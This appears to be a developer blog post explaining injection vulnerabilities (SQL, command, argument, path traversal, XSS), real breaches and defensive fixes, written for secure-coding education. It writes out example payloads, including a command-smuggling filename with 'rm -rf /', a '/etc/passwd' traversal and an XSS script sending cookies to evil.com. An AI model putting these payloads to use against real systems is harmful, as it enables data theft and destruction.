

In February 2021, a hacker exfiltrated 70 GB of data from Gab, the social network: user posts, private messages, hashed passwords, and profile information. The vulnerability was a SQL injection introduced into the codebase by Gab's own CTO ([Ars Technica, March 2021](https://arstechnica.com/gadgets/2021/03/rookie-coding-mistake-prior-to-gab-hack-came-from-sites-cto/)). It was a string concatenation bug in a composable query feature, standard code that worked correctly for every legitimate request and failed catastrophically under adversarial input. A second attack followed the next week, using OAuth2 tokens stolen during the first breach ([Ars Technica, March 2021](https://arstechnica.com/information-technology/2021/03/gab-a-haven-for-pro-trump-conspiracy-theories-has-been-hacked-again/)). The attacker did not need insider access or a sophisticated exploit chain; the entry point was a reachable endpoint with unparameterized input handling.

The same pattern applies to every internet-connected system, because every input can be controlled by someone other than you. HTTP parameters, form fields, file uploads, headers, cookies, query strings, webhooks, LLM prompts, third-party API responses, and data read back from your own database after another process wrote to it are all surfaces where external data enters your system and participates in its behavior. The operating assumption for any input that crosses a trust boundary should be that it is hostile until your code has specifically verified otherwise, given that every publicly reachable endpoint is being probed by automated tools continuously. Most developers default to assuming users will send well-formed input, because that is what happens during development and testing. Automated scanners and dedicated attackers operate under the opposite assumption: they specifically craft input designed to make your system do something unintended.

## Injection as a Pattern

Injection is a general class of vulnerability that applies anywhere user-controlled data becomes part of a command. SQL queries, shell commands, HTML output, JavaScript evaluation, file paths, system templates, LLM prompts, and configuration files can all be targets. The underlying mechanism is always the same: input that was supposed to be data ends up being interpreted as instructions.

The simplest way to think about it:

```
code + user input = command
```

If the input can change the meaning of the command, the attacker controls your system. SQL injection, command injection, XSS, template injection, and [prompt injection](/2024/01/18/can-we-solve-prompt-injection/) are all instances of this one pattern. 

Injection vulnerabilities persist for a few recurring reasons. Developers concatenate strings when building queries or commands, and framework protections exist but get bypassed through misconfiguration or partial adoption.

## Common Injection Points

### SQL injection

SQL injection remains one of the most frequently exploited vulnerability classes in web applications. The 2024 CWE Top 25 from MITRE still lists it (CWE-89) among the most dangerous software weaknesses ([MITRE CWE Top 25, 2024](https://cwe.mitre.org/top25/archive/2024/2024_cwe_top25.html)).

The mechanism is straightforward. When a query is built by concatenating user input directly into the SQL string:

```go
query := "SELECT * FROM users WHERE email = '" + email + "'"
```

An attacker can supply input like:

```
' OR 1=1 --
```

This transforms the query into one that returns every row in the table. The input stopped being data and became part of the SQL command itself. More sophisticated variants can extract specific tables, modify data, or in some database configurations execute system commands.



This vulnerability class shows up regularly in internal tools, admin panels, and MVPs where developers reach for string concatenation because it is faster to write than the framework's query builder. Startups building quickly are especially prone, because the code works correctly in every test that uses normal input.

### Command injection

Any time your application constructs a shell command using external input, you have an injection surface. The classic case is `os.system("convert " + filename)` where a semicolon in the filename (`file.jpg; rm -rf /`) gives the attacker a second command. The fix is to use APIs that pass arguments as arrays rather than through shell interpretation (Python's `subprocess.run` with `shell=False`, for example), or to avoid shell execution entirely when library alternatives exist.

A less obvious variant is argument injection: even if you avoid shell interpretation, user input that starts with a hyphen can be parsed as a flag by the target program. A filename like `--output=/etc/cron.d/backdoor` passed to `curl` or `--upload-pack=malicious-command` passed to `git clone` can change the program's behavior without any shell metacharacters. Prefixing user-supplied arguments with `--` (the conventional end-of-options marker) or validating that values do not start with `-` prevents this class.

### Path traversal

When file paths are built from user input without proper constraints, attackers can navigate outside the intended directory. A download endpoint like:

```
/download?file=report.pdf
```

becomes dangerous when someone requests:

```
/download?file=../../etc/passwd
```

If the server resolves this path without validating that it stays within the allowed directory, it may serve system files, configuration files, or other users' data. This class of vulnerability is especially common in file upload handlers, download endpoints, and archive extraction routines. The "zip slip" variant, where archives contain entries with path traversal sequences that write outside the target directory during extraction, is worth knowing about because it bypasses checks that only look at URL parameters ([Snyk zip slip research](https://security.snyk.io/research/zip-slip-vulnerability)).

### XSS (Cross-Site Scripting)

When user-supplied data is rendered into HTML without escaping, an attacker can inject JavaScript that runs in other users' browsers. A username containing `<script>document.location='https://evil.com/steal?c='+document.cookie</script>` rendered into a `<div>Welcome {{username}}</div>` template steals session cookies from every visitor who sees that page. Because the script executes in the context of your domain, it has full access to cookies, localStorage, and any authenticated API the user's browser can reach, which makes session hijacking, account takeover, and unauthorized transactions all straightforward follow-ups. Most modern template engines escape output by default, but the vulnerability reappears wherever developers use raw HTML insertion (`innerHTML`, `dangerouslySetInnerHTML`, `|safe` filters in Jinja2) to work around that default.

## Injection Breaches in Practice

In 2009, Albert Gonzalez and two co-conspirators used SQL injection to steal 130 million credit card numbers from Heartland Payment Systems, 7-Eleven, and Hannaford Brothers. The US Department of Justice called it the largest identity theft case in American history at the time ([BBC, August 2009](https://news.bbc.co.uk/2/hi/americas/8206305.stm)). Gonzalez had researched the companies' payment processing systems and found injectable endpoints through standard reconnaissance.

In June 2011, the hacking group LulzSec used SQL injection against Sony Pictures and extracted roughly one million user accounts, including passwords stored in plaintext ([Forbes, June 2011](https://www.forbes.com/sites/parmyolson/2011/06/02/lulzsec-hackers-purge-sonypictures-com/)). The same year, hackers stole 450,000 login credentials from Yahoo! Voices through a union-based SQL injection ([Ars Technica, July 2012](https://arstechnica.com/information-technology/2012/07/yahoo-service-hacked/)).

In October 2015, attackers exploited a SQL injection flaw in a legacy web portal at TalkTalk, the British telecom, and stole personal details belonging to 156,959 customers. TalkTalk was fined £400,000 by the UK's Information Commissioner's Office for failing to prevent an attack that the security community considered basic and well-understood at the time ([BBC, October 2015](https://www.bbc.com/news/technology-34636308), [ICO fine, October 2016](https://web.archive.org/web/20161024090111/https://ico.org.uk/about-the-ico/news-and-events/news-and-blogs/2016/10/talktalk-gets-record-400-000-fine-for-failing-to-prevent-october-2015-attack/)).

The 2023 MOVEit Transfer breach is the largest recent example. A SQL injection vulnerability in the file transfer product allowed the Cl0p ransomware group to run automated mass exploitation, compromising over 2,700 organizations and exposing data belonging to approximately 93.3 million individuals. Victims included the BBC, British Airways, Ernst & Young, the US Department of Energy, and hundreds of healthcare and financial institutions ([CISA advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-158a), [Emsisoft MOVEit tracker](https://www.emsisoft.com/en/blog/44123/unpacking-the-moveit-breach-statistics-and-analysis/)). The vulnerability was a standard SQL injection in a publicly accessible endpoint; Cl0p used a custom webshell called LEMURLOOT to extract data at scale ([Ars Technica, June 2023](https://arstechnica.com/information-technology/2023/06/mass-exploitation-of-critical-moveit-flaw-is-ransacking-orgs-big-and-small/)).

In September 2024, two security researchers discovered a SQL injection vulnerability in FlyCASS, the system used by the TSA to verify airline crew members at airport security checkpoints. Exploiting the flaw gave them unauthorized administrative access, which would have allowed adding fake crew records to bypass screening entirely ([The Verge, September 2024](https://www.theverge.com/2024/9/8/24239026/airline-security-bug-tsa-security-database-sql-injection-hack)).

These incidents span 15 years and the vulnerability class is the same in every case: a reachable endpoint where user-controlled input was concatenated into a query instead of being parameterized. The tooling to find and exploit these flaws is freely available (tools like [sqlmap](https://sqlmap.org/) can detect and dump a vulnerable database in a single command) and the gap between exposure and discovery is typically months, because the application's behavior does not change while data is being read by an unauthorized party.

## Safe Input Handling

The principle: never trust input, always sanitize or constrain it before it participates in any operation that could be interpreted as a command. Two approaches work best when combined.

### Prefer safe APIs

Instead of writing sanitization logic yourself, use APIs and libraries that separate data from commands by construction. Parameterized queries are the clearest example for SQL:

```sql
SELECT * FROM users WHERE email = ?
```

The database driver handles the parameter as data rather than as part of the SQL syntax, making injection structurally impossible regardless of what the input contains. Most modern web frameworks escape HTML output by default in their template engines. For shell commands, libraries that accept arguments as arrays rather than interpolating them into a command string prevent command injection at the API level. Safe APIs make the secure path the default path, so you only create vulnerabilities by actively opting out of the protection.

### Constrain inputs

Where possible, remove the attack surface entirely by refusing to accept arbitrary input. Instead of allowing users to specify a filename:

```
/download?file=report.pdf
```

Accept an identifier that maps to a file internally:

```
/download?fileId=123
```

The server resolves the file path from a controlled mapping that the user cannot influence. The same principle applies broadly: use enums instead of free-text fields where the set of valid values is known, use allow-lists rather than deny-lists for file types, and resolve file paths against a fixed base directory before serving anything.

## Catch It Before It Ships

Static analysis tools like [Opengrep](https://github.com/opengrep/opengrep), [Bandit](https://github.com/PyCQA/bandit), [gosec](https://github.com/securego/gosec), and [CodeQL](https://codeql.github.com/) can detect injection vulnerabilities (SQL injection, command injection, path traversal, XSS) automatically by scanning your codebase for known dangerous patterns. Most of them require no configuration to get started and can run against a repo in minutes.

The practical move is to integrate one of these into your CI pipeline so it runs on every pull request. Running any of these against a codebase that has never been scanned will almost certainly surface findings, and that is fine. What matters is that new injection surfaces cannot be introduced without being flagged, and that existing ones get tracked and resolved over time. For a broader security checklist covering secrets, authorization, storage, and more, see [A Practical Security Audit for Builders](/2026/02/14/quick-security-audit/).
